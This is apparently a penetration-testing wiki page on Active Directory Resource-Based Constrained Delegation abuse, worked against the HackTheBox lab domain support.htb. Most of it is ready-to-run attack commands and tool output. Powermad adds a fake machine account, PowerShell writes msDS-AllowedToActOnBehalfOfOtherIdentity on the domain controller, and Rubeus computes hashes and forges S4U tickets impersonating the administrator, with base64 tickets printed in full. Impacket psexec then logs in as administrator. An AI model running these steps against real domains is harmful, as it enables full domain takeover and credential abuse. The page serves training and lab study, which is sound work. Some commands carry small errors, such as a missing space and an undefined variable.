 ```yaml
---
description: Taking over a computer object and performing a S4U attack
---
```


# RBCD

Resource Based Constrained Delegation can be exploited by adding a fake computer $FAKE-COMP01 to the domain, configuring it to act on behalf of the DC. This lets us request Kerberos tickets as $FAKE-COMP01 impersonating a domain admin. We then use Pass-the-Ticket to authenticate as admin and take over the domain by performing a S4U attack.

{% embed url="https://learn.microsoft.com/en-us/windows-server/security/kerberos/kerberos-constrained-delegation-overview" %}

### <mark style="color:yellow;">How does it work.</mark>

Resource-Based Constrained Delegation (RBCD) is a mechanism in Active Directory that allows a specific object to impersonate any user instead of a user impersonating a user. RBCD can granting computer objects impersonation rights. This is done by using `msDS-AllowedToActOnBehalfOfOtherIdentity`. Any user withpermissions (like `GenericAll` or `WriteDacl`) on a computer account can configure it.

### <mark style="color:yellow;">What is needed</mark>

<details>

<summary>Video of this attack</summary>

[https://www.youtube.com/watch?time\_continue=268\&v=RUbADHcBLKg\&embeds\_referring\_euri=https%3A%2F%2F0xdf.gitlab.io%2F\&source\_ve\_path=MzY4NDIsMjg2NjY](https://www.youtube.com/watch?time_continue=268\&v=RUbADHcBLKg\&embeds_referring_euri=https%3A%2F%2F0xdf.gitlab.io%2F\&source_ve_path=MzY4NDIsMjg2NjY)

</details>

{% stepper %}
{% step %}
**Code execution**

Code execution as a domain user belonging to Authenticated Users

```powershell
Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DSMachineAccountQuota
```
{% endstep %}

{% step %}
**ms-ds-machineaccountquota**

The ms-ds-machineaccountquota attribute needs to be higher than 0. This attribute controls the amount of computers that authenticated domain users can add to the domain.

```powershell
Get-DomainComputer DC | select name, msds-allowedtoactonbehalfofotheridentity

name msds-allowedtoactonbehalfofotheridentity
---- ----------------------------------------
DC
```
{% endstep %}

{% step %}
**Need GenericAll or WriteDACL**

Our current user or a group that our user is a member of, needs to have WRITE privileges ( GenericAll , WriteDACL ) over a domain joined computer
{% endstep %}
{% endstepper %}

## Performing the S4U attack

{% hint style="info" %}
S4U (Service for User) is a Kerberos protocol extension that allows a service to impersonate a user to access other resources. A successful S4U attack involves exploiting vulnerabilities in this mechanism to gain unauthorized access to sensitive resources.
{% endhint %}

### <mark style="color:yellow;">Method1</mark>

Create a new computer account to abuse write privilege on the DC. We then set `msDS-AllowedToActOnBehalfOfOtherIdentity` to our account so we can impersonate as any user from to the DC. For this you need to import [Powermad](https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1).

```powershell
New-MachineAccount -MachineAccount Zen -Password $(ConvertTo-SecureString 'pass@123' -AsPlainText -Force)
```

We can then set `msDS-AllowedToActOnBehalfOfOtherIdentity` on our account

```powershell
Set-ADComputer dc -PrincipalsAllowedToDelegateToAccount Zen$
```

And retrieve tickets with Rubeus

<pre class="language-powershell"><code class="lang-powershell"><strong>.\Rubeus.exe s4u /user:Zen$ /password:pass@123/domain:support.htb /impersonateuser:administrator /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /msdsspn:host/dc.support.htb /nowrap
</strong></code></pre>

<details>

<summary>Retrieved tickets</summary>

```powershell
PS C:\Users\support\Documents> .\Rubeus.exe s4u /user:0xdfFakeComputer$ /rc4:B1809AB221A7E1F4545BD9E24E49D5F4 /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0

[*] Action: S4U

[*] Using rc4_hmac hash: B1809AB221A7E1F4545BD9E24E49D5F4
[*] Building AS-REQ (w/ preauth) for: 'support.htb\0xdfFakeComputer$'
[*] Using domain controller: ::1:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFvjCCBbqgAwIBBaEDAgEWooIEzTCCBMlhggTFMIIEwaADAgEFoQ0bC1NVUFBPUlQuSFRCoiAwHqAD
      AgECoRcwFRsGa3JidGd0GwtzdXBwb3J0Lmh0YqOCBIcwggSDoAMCARKhAwIBAqKCBHUEggRxfQi/f3np
      EMZE+Bk4cMAc7F/DucdA/LIBYSg4fU7tKg3CuPHLEtVN2di3g0YrCUbB9b8lvTeg1vSU/wjmAbcqP6PK
      geFl4t1fwOZP16vxD6GbJ6xfGizXcN56zL5RN26HWREkQWM2nHmo119CZIeQnGGgnzFF6T4D58M1/7im
      eS2l4leCnzjffmoYSTl8vcQqAn7LANGrNBHxZv4vZEslmSpvXd0swUW96DaCHkAuy04Yxg7ADN4d0I4h
      NRE1/i6U+WGKmfEB5UnPJ57AGkcaMfpT7CJj4fb07ED3FdC9jns0p5dWDqZWVtyWzwPPmZDzaD66HtX7
      mHTq+1TURbs0TUKyKLTE35n2pC3CWQtxgYk7RDZ2WbCuEvJ1FQxYANdVt9z+mshafwwNqgtNy45IZdrb
      RBQBgnWCrjIY0nWVIIU6Tg4xEnhoPm+dVmaG/jLb213VbR2B9xv/QyHYoStpLOezsZRpHPb9gcjSYUha
      KTUbjI3WFsNrJkEx9pXDvlLB8guDfkUj1//AbwQDHft3guaECmnOHdV0vxcIkSqRel/R8BLhuXheioD1
      TC7ESRPRAe3KruckjaWq9hlhBB3aiAcx//gmfS7QCIfQ5OFryZHFdzzzWqCJfPrlqDg5xtYwG0qQ6dSS
      Ou1uJ0F0/b9rY23TIchhwmQFVTaKjeGL6FfbZRcfBgcXFjMtEtzMmYLyAUgdmsgL9Rjh2gosiQvYmxXF
      VUQC2t60oPJsmqUUL1wG6xE6JXf9XG6FmgHVRLMM8E+CxPQ7hTIS0PcPZIlT9f1fvtO9G/8rIJjoUKDB
      GG7wuLRXxxcuRmoWTTiiGDSWgBtOzmOfeK4RSFcZoX9CHKw/+M9bXLKbsLCTXpt8qHZb9u6Kb1jFd4bD
      40ZaF3ep+W9wMSW+MEQw8k9m4u4apBlGQyJDNSBfExXi24K2ro7amzVjMWJZjPLJgZJMKwlOgFzHplC5
      FSo4wbl288W34DZbGW85XZce9dsMSQGYFyYN33nmZxzRvkjxRU7cJ/hacC3EwGNDKbpqRMLhPSs86zgl
      gPk2ZwRZAgcc/q4baeVwJiSIZbh5Ru0p64gpvNZUG71umSlcROh2cJIipBWjilAzeoyTrrXdokx2sG3y
      6FWVnCbBMxICAvCNH1WrqLat4eLV7NGIF07ZLu5mg8bc8xX/q2PTBpyS2QUpx9+rPhDqB9WnOSP/jedo
      DUL0RsywRl6obAqerHdCSWvwt060xSwhYGATpa772oncMtSwOry2eknztoYJ6/N/ANFRZe7M+EW7k96N
      3DLuXJzcnPjLN+xdVKVTjGONa7v5f+7UJW2XqR3J12ue7cI2+cX/O328oWRuImzfaE1WA6yy4ao4zjm7
      8WIn3HjNwu736R2a7iqUrrag+mxFIGIc8lpk5M7Hs01GgbmroY5k+IbuhgZpTUgZSFazAEgqoQxzhk7N
      nnP13tA0Bx+tK0I8TtnMKy7cVSixj57rhaWHD0rgvZgPx6KNGljAJezy6dhxuxmhOJ8eo4HcMIHZoAMC
      AQCigdEEgc59gcswgciggcUwgcIwgb+gGzAZoAMCARehEgQQOoRFqAF1kc0B3FkPPCRj26ENGwtTVVBQ
      T1JULkhUQqIeMBygAwIBAaEVMBMbETB4ZGZGYWtlQ29tcHV0ZXIkowcDBQBA4QAApREYDzIwMjQxMTEx
      MjE0NDAzWqYRGA8yMDI0MTExMjA3NDQwM1qnERgPMjAyNDExMTgyMTQ0MDNaqA0bC1NVUFBPUlQuSFRC
      qSAwHqADAgECoRcwFRsGa3JidGd0GwtzdXBwb3J0Lmh0Yg==


[*] Action: S4U

[*] Building S4U2self request for: '0xdfFakeComputer$@SUPPORT.HTB'
[*] Using domain controller: dc.support.htb (::1)
[*] Sending S4U2self request to ::1:88
[+] S4U2self success!
[*] Got a TGS for 'administrator' to '0xdfFakeComputer$@SUPPORT.HTB'
[*] base64(ticket.kirbi):

      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
      AgEBoRUwExsRMHhkZkZha2VDb21wdXRlciQ=

[*] Impersonating user 'administrator' to target SPN 'cifs/dc.support.htb'
[*] Building S4U2proxy request for service: 'cifs/dc.support.htb'
[*] Using domain controller: dc.support.htb (::1)
[*] Sending S4U2proxy request to domain controller ::1:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/dc.support.htb':

      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
[+] Ticket successfully imported!

```

</details>

Find the administrator ticket and echo it into `base64 -d` and save it as ticket.b64. Then use ticketconverter to a format impacket can use.

```bash
$ python ticketConverter.py ticket.kirbi ticket.ccache                                               
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] converting kirbi to ccache...
[+] done
```

Finally we can login as administrator. Make sure the dc.domain.yzt is added to hosts.

```bash
KRB5CCNAME=ticket.ccache python psexec.py support.htb/administrator@dc.support.htb -k -no-pass
```

### <mark style="color:yellow;">Method 2</mark>

First create the fake computer and add it to the domain with [Powermad](https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1).

```powershell
PS C:\Users\support\Documents> New-MachineAccount -MachineAccount ZenFakeComputer -Password $(ConvertTo-SecureString 'pass@132' -AsPlainText -Force)
[+] Machine account ZenFakeComputer added

# Check it the new machine was added
PS C:\Users\support\Documents> Get-ADComputer -identity ZenFakeComputer
DistinguishedName : CN=ZenFakeComputer,CN=Computers,DC=support,DC=htb
DNSHostName       : ZenFakeComputer.support.htb
Enabled           : True
Name              : ZenFakeComputer
ObjectClass       : computer
ObjectGUID        : 2aa665e0-20e0-420d-ac5c-b59c7b8b3de9
SamAccountName    : ZenFakeComputer$
SID               : S-1-5-21-1677581083-3380853377-188903654-5602
UserPrincipalName :
```

Configure the DC to trust my fake computer by creating an ACL with its SID and assigning it to the DC.

```powershell
# Get the objectSID of the target computer (ZenFakeComputer)
$fakesid = Get-DomainComputer ZenFakeComputer | select -expand objectsid

# Create a new security descriptor that grants full control to the target computer
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($fakesid))"

# Convert the security descriptor to a byte array
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

# Set the msds-allowedtoactonbehalfofotheridentity attribute on the target computer
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

Check if it worked

```powershell
# Get the raw security descriptor of the domain controller
$RawBytes = Get-DomainComputer DC -Properties 'msds-allowedtoactonbehalfofotheridentity' | Select-Object -ExpandProperty msds-allowedtoactonbehalfofotheridentity

# Create a new security descriptor object from the raw bytes
$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0

# Access the discretionary access control list (DACL) of the security descriptor
$Descriptor.DiscretionaryAcl

BinaryLength       : 36
AceQualifier       : AccessAllowed
IsCallback         : False
OpaqueLength       : 0
AccessMask         : 983551
SecurityIdentifier : S-1-5-21-1677581083-3380853377-188903654-5602
AceType            : AccessAllowed
AceFlags           : None
IsInherited        : False
InheritanceFlags   : None
PropagationFlags   : None
AuditFlags         : None
```

It shows an Access Control List that specifies the machines that can act on behalf of the DC with `SecurityIdentifier` of my fake computer with `AccesAllowed`.

First get the rc4\_hmac value.

```powershell
PS C:\Users\support\Documents> .\Rubeus.exe hash /password:zenpass@123 /user:ZenFakeComp /domain:support.htb

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0


[*] Action: Calculate Password Hash(es)

[*] Input password             : zenpass@123
[*] Input username             : ZenFakeComp
[*] Input domain               : support.htb
[*] Salt                       : SUPPORT.HTBZenFakeComp
[*]       rc4_hmac             : DFA8C3D737ACDD5F9AF9F4B60205E8D9
[*]       aes128_cts_hmac_sha1 : DBC10236F5F70D66F4BBF93819D3635B
[*]       aes256_cts_hmac_sha1 : 6AFC3C4155B027E5B43BE2B3B1636114C877C3B077808F25B3689A1925931D40
[*]       des_cbc_md5          : 8F20A2C8B90780C7
```

Next retrieve the tickets with Rubeus

```powershell
PS C:\Users\support\Documents> .\Rubeus.exe s4u /user:ZenFakeComp$ /rc4:DFA8C3D737ACDD5F9AF9F4B60205E8D9 /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt
```
